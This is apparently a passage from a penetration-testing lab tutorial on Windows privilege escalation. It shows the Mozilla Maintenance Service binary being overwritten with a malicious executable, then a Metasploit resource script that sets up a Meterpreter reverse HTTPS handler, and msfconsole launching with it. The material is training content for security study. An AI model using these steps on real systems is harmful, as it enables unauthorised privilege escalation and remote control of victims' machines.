 ### Replacing File with Malicious Binary

We can overwrite the `maintenanceservice.exe` binary in `c:\Program Files (x86)\Mozilla Maintenance Service`
 with a good working copy of our malicious binary created earlier before
 proceeding to start the service. In this example, we downloaded two 
copies of the malicious binary to `C:\Users\htb-student\Desktop`, `maintenanceservice.exe` and `maintenanceservice2.exe`. Let's move the good copy that was not corrupted by the exploit `maintenanceservice2.exe` to the Program Files directory, making sure to rename the file properly and remove the `2` or the service won't start. The `copy` command will only work from a cmd.exe window, not a PowerShell console.

Kernel Exploits

```
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

        1 file(s) copied.

```

### Metasploit Resource Script

Next, save the below commands to a [Resource Script](https://docs.rapid7.com/metasploit/resource-scripts/) file named `handler.rc`.

Kernel Exploits

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit

```

### Launching Metasploit with Resource Script

Launch Metasploit using the Resource Script file to preload our settings.

Kernel Exploits

```
doshim@htb[/htb]$ sudo msfconsole -r handler.rc

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before

```